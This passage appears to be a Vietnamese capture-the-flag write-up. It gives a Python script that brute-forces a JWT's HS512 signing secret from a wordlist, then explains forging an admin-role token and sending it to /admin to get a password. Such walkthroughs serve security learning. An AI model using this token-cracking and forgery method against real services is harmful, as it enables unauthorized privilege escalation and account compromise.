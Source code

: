 Gợi ý khá rõ ràng: Viết 1 script để brute force chuỗi jwt này. Ở đây lấy 1 python script trên mạng:

```python
import jwt

token = input("Enter JWT token:")
files = input("Enter wordlist name:")

# change this to True to verify token expiration
options = { 'verify_exp':False}

with open(files) as seckeys:
	for secret in seckeys:
		try:
			# change algorithm='HS256' to another supported algorithm if necessary 
			payload = jwt.decode(token, secret.rstrip(), algorithm='HS512', options=options)
			print ("Success. Token decoded with the following key:" , secret.rstrip())
			print (payload)
			break
		except jwt.InvalidTokenError:
			print ("Failed to verify token signature with the following key: "  , secret.rstrip())
		except jwt.ExpiredSignatureError:
			print ("Token is Expired")
```

Bằng jwt ta biết đó là algo dạng HS512, chạy script khoảng 30s sẽ ra secret key là `lol`, payloads là `"role":"guest"`

Dùng jwt, đổi role thành admin, thêm secret key vào và gen ra jwt gửi cùng POST request lên /admin, ta có được password